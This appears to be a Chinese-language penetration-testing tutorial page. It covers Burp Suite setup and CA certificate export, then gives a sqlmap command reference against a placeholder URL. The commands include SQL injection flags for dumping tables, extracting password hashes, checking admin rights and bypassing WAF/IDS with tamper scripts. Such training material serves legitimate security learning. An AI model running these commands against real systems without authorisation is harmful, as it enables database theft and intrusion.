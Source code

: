 - Scanner——是一个仅限专业版的高级工具，执行后，它能自动地发现web 应用程序的安全漏洞。

~~~shell
# 如果要汉化就提前看汉化最高支持的版本然后下载对应的Burp Suite版本
# 安装参考：https://blog.csdn.net/m0_52985087/article/details/140299827
# Burp Suite下载：https://portswigger.net/burp/releases
# 汉化包下载：https://github.com/Leon406/BurpSuiteCN-Release/releases

# 默认情况下BurpSuite会在8080端口启动代理服务，导出BurpSuite的CA证书给其他工具使用，例如将这个代理CA证书导入浏览器并且设置浏览器的代理为BurpSuite的8080端口代理服务进行使用
# CA证书导出导入浏览器参考https://zhuanlan.zhihu.com/p/662090810
# 方式一：http://127.0.0.1:8080/cert 或者 http://burp/cert（这个估计要先在系统代理中设置BurpSuite的8080端口代理服务） 可以下载CA证书
# 方式二：通过BurpSuite的proxy设置可以导出CA证书
~~~

### 使用sqlmap进行sql注入
sqlmap是一个开源的渗透测试工具，可以用来进行自动化检测，利用SQL注入漏洞获取数据库服务器的权限。具有功能强大的检测引擎,针对各种不同类型数据库的渗透测试的功能选项，包括获取数据库中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令
~~~shell
# 安装sqlmap
# 官方网站：http://sqlmap.org/
# Github：https://github.com/sqlmapproject/sqlmap
# kali中自带sqlmap，路径 /usr/share/sqlmap
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

# 在kali中可以直接使用sqlmap命令，无须加python和文件后缀名
python sqlmap.py [options]
# --batch 参数：（默认确认）不再询问是否确认。
# -u 参数：指定需要检测的url进行检测注入点，单/双引号包裹。中间如果有提示，就输入y（可以使用--batch 参数全部确认），扫描完成后，告诉存在的注入类型（布尔盲注、报错注入、时间盲注、联合注入）和使用的数据库及版本，例子：sqlmap -u 'http://xx/?id=1'
# -m 参数：指定文件，可以批量扫描文件中的url，例子：sqlmap -m urls.txt --batch 
# -D 参数：指定目标数据库，单/双引号包裹，可以指定多个数据库使用逗号分隔，常配合其他参数使用
# -T 参数：指定目标表，单/双引号包裹，常配合其他参数使用
# -C 参数：指定目标字段，单/双引号包裹，常配合其他参数使用
# --dbs 参数： 查看所有数据库，例子：sqlmap -u 'http://xx/?id=1' --dbs
# --current-db 参数： 查看当前使用的数据库，例子：sqlmap -u 'http://xx/?id=1' --current-db
# --tables 参数：查看数据库下的数据表，不指定数据库默认获取数据库中所有的表。例子：sqlmap -u 'http://xx/?id=1' -D 'security,sys' --tables
# --columns 参数：查看数据库下的数据表中的字段，不指定表名默认获取当前数据库中所有表的字段。例子：sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --columns
# --schema 参数：查看数据库下的数据表中的字段类型，不指定表名默认获取当前数据库中所有表的字段类型。例子：sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --schema
# --dump 参数：查看数据库下的数据表中的数据，默认获取表中的所有数据，可以使用 --start --stop 指定开始和结束的行，只获取一部分数据。例子：sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --start 1 --stop 5 --dump
# --users 参数：获取数据库的所有用户名，例子：sqlmap -u 'http://xx/?id=1' --users
# --current-user 参数：获取当前登录数据库的用户，例子：sqlmap -u 'http://xx/?id=1' --current-user
# --passwords 参数：获取所有数据库用户的密码（哈希值）。数据库不存储明文密码，只会将密码加密后，存储密码的哈希值，所以这里只能查出来哈希值；当然可以借助工具把它们解析成明文。例子：sqlmap -u 'http://xx/?id=1' --passwords
# --privileges 参数：查看每个数据库用户都有哪些权限。例子：sqlmap -u 'http://xx/?id=1' --privileges
# --is-dba 参数：判断当前登录的用户是不是数据库的管理员账号，如果管理员，输出会显示 current user is DBA:True。例子：sqlmap -u 'http://xx/?id=1' --is-dba
# --hostname 参数：获取服务器主机名。例子：sqlmap -u 'http://xx/?id=1' --hostname
# --search 参数：搜索数据库中是否存在指定库/表/字段，需要指定库名/表名/字段名。例子：sqlmap -u 'http://xx/?id=1' -D 'security' --search 搜索数据库中有没有 security 这个数据库
# --statements 参数：获取数据库中正在执行的SQL语句，例子：sqlmap -u 'http://xx/?id=1' --statements
# --tamper 参数：SQLmap内置了很多绕过脚本，在 /usr/share/sqlmap/tamper/ 目录下，可以指定绕过脚本，绕过WAF或ids等。例如：sqlmap -u 'http://xx/?id=1' --tamper 'space2comment.py'
# --cookie 参数：指定cookie的值，单/双引号包裹，例子：sqlmap -u "http://xx?id=x" --cookie 'cookie'
# -a 参数：获取所有能获取的内容，会消耗很长时间，例子：sqlmap -u 'http://xx/?id=1' -a

# --method=GET 参数： 指定请求方式（GET/POST）
# -r 参数：检测post请求的注入点，使用BP等工具抓包，将http请求内容保存到txt文件中，指定抓包的文件，SQLmap会通过post请求方式检测目标，例子：sqlmap -r bp.txt
# --random-agent 参数： 随机切换UA（User-Agent）
# --user-agent ' ' 参数： 使用自定义的UA（User-Agent）
~~~